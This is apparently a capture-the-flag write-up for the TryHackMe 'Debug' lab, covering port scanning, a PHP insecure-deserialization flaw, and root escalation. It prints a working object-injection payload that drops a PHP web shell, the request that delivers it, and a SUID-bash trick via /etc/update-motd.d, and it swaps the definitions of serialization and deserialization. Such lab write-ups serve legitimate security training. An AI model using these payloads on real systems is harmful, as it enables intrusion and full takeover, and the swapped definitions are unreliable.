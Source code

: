 --------------------

### TRYHACKME
### Lab: Debug

--------------------

![image](https://github.com/user-attachments/assets/7a87a1ed-8d4c-43fd-a5f9-0a391f20067c)

--------------------

### Recon

- Rustscan's output

      ❯ rustscan -a 10.10.201.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.201.128:22
      Open 10.10.201.128:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                                                                        
                                                                                                                                                       
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:03 EDT                                                                           
      NSE: Loaded 156 scripts for scanning.                                                                                                            
      NSE: Script Pre-scanning.                                                                                                                        
      NSE: Starting runlevel 1 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 2 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 3 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      Initiating Ping Scan at 16:03                                                                                                                    
      Scanning 10.10.201.128 [2 ports]                                                                                                                 
      Completed Ping Scan at 16:03, 0.15s elapsed (1 total hosts)                                                                                      
      Initiating Parallel DNS resolution of 1 host. at 16:03                                                                                           
      Completed Parallel DNS resolution of 1 host. at 16:03, 0.02s elapsed
      DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:03
      Scanning 10.10.201.128 [2 ports]
      Discovered open port 22/tcp on 10.10.201.128
      Discovered open port 80/tcp on 10.10.201.128
      Completed Connect Scan at 16:03, 0.18s elapsed (2 total ports)
      Initiating Service scan at 16:03
      Scanning 2 services on 10.10.201.128
      Completed Service scan at 16:03, 6.82s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.201.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:03
      Completed NSE at 16:04, 9.48s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 1.02s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 0.00s elapsed
      Nmap scan report for 10.10.201.128
      Host is up, received syn-ack (0.16s latency).
      Scanned at 2024-08-17 16:03:47 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
      |   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
      |   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/1fa2b2c5-0673-4efb-9a8d-1ac3ee691861)

- Route `/backup` reveals the backup source code files of the site and focus will be on finding vulnerabilities in `index.php.bak`

![image](https://github.com/user-attachments/assets/2c6de75a-dbe1-4217-b4ee-e6cc3209d5ad)

----------------------------

### CODE REVIEW OF index.php
### Main vulnerability: Insecure Deserialization in function `unserialze()`
  
  Deserialization covers conversion of an object into bytes.Serialization  converts bytes into an object.These concepts are carried out by some programming languages' functions and if not properly handled might lead to remote code execution or other critical vulnerabilities. Some  examples of dangerous unserializing functions in python and php are `pickle.dumps()[python],yaml.loads()[python],unserialize()[php]`.

- Index.php accept a get parameter `debug` which is then unserialized by the `unserialize()` function

      $debug = $_GET['debug'] ?? '';
      $messageDebug = unserialize($debug);

- `Unserialize()` is vulnerable to insecure deserialization which can be used to gain remote code execution as explained in this [site](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)

-  Abusing the unserialize function, we can access class `FormSubmit` which requires variables `form_file` and `message`.This class later runs the `__destruct` magic object to write the value of message to the form_file using the `file_puts_contents()` function.

            class FormSubmit {
            
            public $form_file = 'message.txt';
            public $message = '';
            
            public function SaveMessage() {
            
            $NameArea = $_GET['name']; 
            $EmailArea = $_GET['email'];
            $TextArea = $_GET['comments'];
            
            	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
            
            }
            
            public function __destruct() {
            
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
            echo 'Your submission has been successfully saved!';
            
            }

-----------------------

### Exploit

- Exploit:

         O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:35:"<?php echo system($_GET['cmd']); ?>";}

- This exploit will call class `FormSubmit` and write a  php web shell code to shell.php in the current directory.
- Running it

      http://<ip>/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:9:%22shell.php%22;s:7:%22message%22;s:35:%22%3C?php%20echo%20system($_GET[%27cmd%27]);%20?%3E%22;}

- Our web shell is ready

![image](https://github.com/user-attachments/assets/06daccd3-9901-4409-a667-a2931e43f731)

-----------------------------

### Initial Foothold

- Shell as www-data:

![image](https://github.com/user-attachments/assets/052ae04f-6d1b-43f4-bdf1-f340ef67a9aa)

- Running `linpeas.sh` privesc enumeration script  reveals user `james` hash stored in `.htpasswd`

![image](https://github.com/user-attachments/assets/d6e1645e-bbbf-4269-91d3-2b6267aa68e2)

- Cracking the shadow hash with John

![image](https://github.com/user-attachments/assets/3150b002-d493-41a1-83bc-cc0d28c63089)

- SSH access

![image](https://github.com/user-attachments/assets/4440561e-a28a-4ffb-9f4b-0a15e05815d9)

-------------------------

### PRIVESC with `/etc/update-motd.d` files

- An hint in  txt file reveals that we can modify ssh motd `message of the day` files.

![image](https://github.com/user-attachments/assets/287235ea-454f-4631-9eb3-82365bacf793)

- I learnt that `/etc/update-motd.d/` contains such files and I got an exploitation idea from this [site](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/).

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header
      exit
      ssh again
      ./bash -p

- Exploiting the 00-header file

![image](https://github.com/user-attachments/assets/6f9849fe-3709-49e5-9067-5a4d1229ed01)

- Root
  
![image](https://github.com/user-attachments/assets/ae599468-0fb9-4760-abae-a34992083c3c)

------------------

### THANKS FOR READING!!!!!!!!

-----------------------

### REFERENCES:

- [SSH-MOTD'S PRIVESC](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)
- [Insecure Deserialization](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)
- [Php Object injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md)


-----------------------





  
  


